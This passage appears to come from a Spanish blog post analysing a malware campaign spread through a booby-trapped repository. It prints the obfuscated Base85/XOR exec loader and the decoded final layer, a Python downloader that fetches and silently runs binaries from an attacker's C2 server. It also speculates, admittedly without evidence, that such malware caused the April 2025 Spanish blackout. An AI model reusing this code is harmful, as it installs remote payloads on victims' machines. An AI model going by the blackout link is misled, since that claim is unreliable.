o){HbPuO3qKxp2^Uci7$G7(8$JscI1?ue5e671JTO!?ZXaI<AxR4y09$xEJ6|F?8bury91&VL8#qA|0w^Q}FD+dL6bn8k3qD~BKuIDVD>qvvMom~B5KVO<A~Gp8X%S#EHVy+Q4**pLJ1Ye!C`?cp12HB(3?y0$UNQ#+6%cg<DPI8@95_@I0Vp+iAQ@H@Hy1n|5<3JC5+PMQ5h7PB8Z;L?Z#a2JFi{_4D@_<6L_7q04h3=@8ZH?NZxvw^DFF#RYe!NMDJVa94KQ^uULPSFGaUp(H6;o=5CK#hKqx*b9XWbRM=l&LJ_TVb1QlH+5EW-d1t&W_XkS4A7ZW)mY#u}-6;J~SYc@bZIw@2iU<^tn1Uv#6I~qkmD=#E{7B+Y`GZI}VAsGfX0WMVq8Z~w>GY1t592{d5KM+C&cUx6mJ~l#QI$vfUDFO==0z3o@6jnYWU=C+T8axFS6&7AACL;iRb0AzLBnnz0VK!SK9t;&Z4@_S?1}q3`aa{"
exec ('\nimport base64;d1=base64.b85decode(pq[10:]);wq=pq[1:9];sl=len(d1);te=""\nfor l9 in range(sl):k=l9&7;y=chr(d1[l9]^ord(wq[k]));te+=y\nexec(te)')
```

Lo que encontré en el fichero `.npl` era, a primera vista, una cadena enorme con símbolos raros y una línea final muy explícita:

```bash
exec ('\nimport base64;d1=base64.b85decode(pq[10:]);wq=pq[1:9];...;exec(te)')
```

Esa línea decía exactamente lo que yo temía: **decodifica, desencripta y ejecuta**.

Y no era una metáfora. Usaba `**base64.b85decode()**` para interpretar el contenido a partir del carácter 10 de la variable `**pq**`, luego aplicaba un **XOR** **byte a byte** con una clave extraída de `**pq[1:9]**` y finalmente ejecutaba el resultado con `**exec()**`.

Es decir, estábamos ante **un loader polimórfico** de varias capas, escrito para dificultar su análisis. Un backdoor encapsulado, cifrado y comprimido.  

### Jugando a descifrar el `.npl` (🧪lab\_3)

A partir de aquí empezó el juego. Creé varios scripts en Python, que podéis ver en el repositorio, en la sección tools, para simular paso a paso lo que hacía el loader:

1. **Extraer y decodificar** con Base85.

3. **Aplicar XOR** con la clave cíclica embebida.

5. **Reconstruir la primera capa del código Python original.**

7. Detectar, en esa primera capa, **una segunda `exec()`**, que contenía otro blob aún más obfuscado.

9. Y repetir el proceso: decodificar, invertir, descomprimir... hasta llegar al núcleo real del backdoor.

Tuve que ir generando y guardando cada capa en un fichero nuevo (`decoded_layer1.py`, `decoded_layer2.py`, etc.), porque era imposible entenderlo todo de golpe.

Este pipeline me permitió ir viendo cómo el código evolucionaba y se desenmascaraba capa a capa, desde una cadena incomprensible hasta un script Python perfectamente legible que —ahora sí— mostraba las verdaderas intenciones del atacante. Para sacar la cadena final, tras sacar las tres primeras capas, hice un pequeño script recursivo que, al ejecutarlo, extrajo 65 capas. ¡¡65 capas de ofuscación!!

> Y ahí fue cuando descubrí lo que **realmente** hacía este malware.  
> Ese código comprimido y cifrado era **un backdoor completo**, con funciones para recopilar información, escribir archivos, comunicarse con un C2 y ejecutar órdenes arbitrarias.

No era un experimento.  
No era un script casual.  
Era una herramienta sigilosa y dirigida.

```python
import platform,os,subprocess,sys
from base64 import b64decode
ze=sys.executable
try:import requests
except:subprocess.check_call([ze, '-m', 'pip', 'install', 'requests']);import requests

ot = platform.system();home = os.path.expanduser("~");host="YzLjU2====NDUuNTkuMT";host1 = b64decode(host[10:] + host[:10]).decode();host2 = f'http://{host1}:1244'
pd = os.path.join(home, ".vscode")
ap = pd + "/pay"

def rpy(pt):
    if ot=="Windows":subprocess.Popen([ze, pt], creationflags=subprocess.CREATE_NO_WINDOW | subprocess.CREATE_NEW_PROCESS_GROUP)
    else:subprocess.Popen([ze, pt])

def down_file(pt,api):
    if os.path.exists(pt):
        try:os.remove(pt)
        except OSError:return True
    try:
        if not os.path.exists(pd):os.makedirs(pd)
    except:pass
    try:
        aa = requests.get(host2+api+sType, allow_redirects=True)
        with open(ap, 'wb') as f:f.write(aa.content)
        return True
    except Exception as e:print(e);return False

res=down_file(pt=ap, api="/payl/")
if res:rpy(ap)

if ot=="Darwin":sys.exit(-1)

ap = pd + "/bow"
res=down_file(pt=ap, api="/bro/")
if res:rpy(ap)
```

### 🧨 La última capa: el verdadero comienzo

La capa 65 no era el final del payload. Era el **principio real** del ataque.

```python
res=down_file(pt=ap, api="/payl/")
if res:rpy(ap)
...
res=down_file(pt=ap, api="/bro/")
if res:rpy(ap)
```

Ahí estaba todo. Un script que se aseguraba de que `requests` estuviera instalado, montaba un pequeño directorio `.vscode` en el home del usuario —camuflaje perfecto— y descargaba **otros dos binarios** directamente desde un servidor controlado por el atacante: `/payl/` y `/bro/`.

Lo hacía en segundo plano. En silencio.  
Y luego los ejecutaba sin que nadie lo notase.

Además, si el sistema era macOS, el script se cerraba para evitar incompatibilidades. Un detalle curioso... o un indicio de que este backdoor fue diseñado específicamente para targets **Linux o Windows**, es decir: **infraestructura real**.

El backdoor se comportaba con precisión quirúrgica. Primero entra. Luego se establece. Después, espera órdenes.

Y ese patrón me resulta **muy familiar**. Porque si yo fuera el atacante —y menos mal que no lo soy— haría exactamente lo mismo:

- Automatizaría el proceso de entrada, ejecución y expansión.

- Me movería en sigilo, evitando levantar sospechas.

- Subiría privilegios poco a poco hasta hacerme con el control total del sistema.

- Y una vez lo tuviera... usaría ese sistema como trampolín para llegar más lejos.

Este no era un ataque improvisado. Era una **campaña dirigida**.

### ¿Y si no lo llego a pillar?

Porque yo llegué a verlo. A pararlo. A analizarlo y entenderlo.

Pero, ¿cuántos no?

¿Cuántos desarrolladores o responsables de IT han abierto el mismo repositorio, confiados, sin analizar nada?

¿Cuántos servidores de empresas, startups, o incluso entes públicos tienen ya un `.vscode/pay` ejecutado en segundo plano?

¿Cuántos están ahora mismo bajo el control de un C2 remoto, ejecutando scripts sin saberlo?

Piénsalo: si consigues acceso persistente a las máquinas de las personas clave —los sysadmins, los devops, los arquitectos de sistemas— puedes llegar muy, muy lejos. **Red Eléctrica Española** no necesita ser atacada directamente. Solo hay que comprometer al proveedor adecuado, a la persona adecuada.

> Y con un solo comando enviado al C2, puedes reiniciar, apagar o sabotear miles de máquinas críticas.  
> De forma sincronizada.  
> De forma orquestada.

¿Y si el apagón de ayer no fue una cadena de fallos?  
¿Y si fue una **orden ejecutada desde un panel de control** remoto?  
¿Y si cientos de máquinas "infectadas" recibieron al mismo tiempo la instrucción de **reiniciarse o apagarse**, provocando una reacción en cadena?

### 📂 Evidencia técnica

Durante el análisis, generé los siguientes artefactos:

- `capture.pcap`: tráfico completo hacia el C2.

- `.npl`: archivo malicioso generado tras ejecución.

- `decoded_layer2.py`: backdoor Python completamente extraído.

- `layer65.py`: última capa funcional, que ejecuta descargas remotas y binarios externos.

- Scripts y utilidades usados para el análisis (`decode_payload.py`, `decode_exec_layer.py`, etc.).

- Logs de comandos `tshark`, `find`, `netstat`.

- Conversación original con el atacante.

- Capturas de pantalla del entorno y análisis.

- Toda la documentación forense organizada y subida a GitHub.

### El reboot masivo: ¿ataque final?

Esta campaña pudo haber infectado decenas o cientos de miles de máquinas, silenciosamente.

Y ayer, **todas pudieron haber recibido una instrucción concreta**: _reiniciarse a la vez_.  
O apagarse.  
O lanzar un ataque.

Una orden sencilla desde el panel del C2, ejecutada en cientos de nodos comprometidos, puede desencadenar **una tormenta digital** sin precedentes.

Y lo más aterrador es que nunca lo sabrías.  
Porque los logs pueden desaparecer.  
Porque los binarios se ejecutan y se borran.  
Porque todo ocurre a nivel de usuario, con scripts ofuscados en capas.

### Conclusiones

- **No abras un repositorio sin revisar su código**. El malware moderno se esconde en `next.config.js`, no en `virus.exe`.

- **Desconfía de perfiles perfectos** en LinkedIn. Una buena foto y una oferta jugosa no son garantía de legitimidad.

- **Haz siempre tus análisis en entornos aislados.** Usa máquinas virtuales, contenedores o sandboxes.

- **Documenta y comparte**. El silencio nos hace vulnerables. La transparencia nos protege.

### Recursos

Todo lo que se habla en este articulo está respaldado por el siguiente repositorio de GitHub:  
[**Cazando al Cazador – Hunting the Hunter**](https://github.com/juangcarmona/hunting-the-hunter-episode-one)

Incluye:

- Conversación íntegra con el atacante

- Payloads originales y decodificados

- Scripts forenses y entorno de análisis en Docker

- Capturas, timeline y pruebas

> En un mundo donde la IA y la ingeniería social se cruzan, la caza no es un lujo, **es defensa personal**.

### ⚠️ **Nota importante:**

La conexión entre esta campaña y el apagón del 28 de abril de 2025 es **pura especulación narrativa**. No existen pruebas que vinculen directamente este ataque con el incidente eléctrico. Pero si algo así ha ocurrido, es decir, si una infraestructura crítica fue comprometida por una cadena similar de infección y acceso escalado, **la mecánica podría haber sido exactamente esta**.

**Este artículo no afirma, pero sí plantea una posibilidad**. Y lo hace con la intención de prevenir, alertar y abrir los ojos ante vectores de ataque modernos que mezclan IA, ingeniería social y una ejecución técnica impecable.
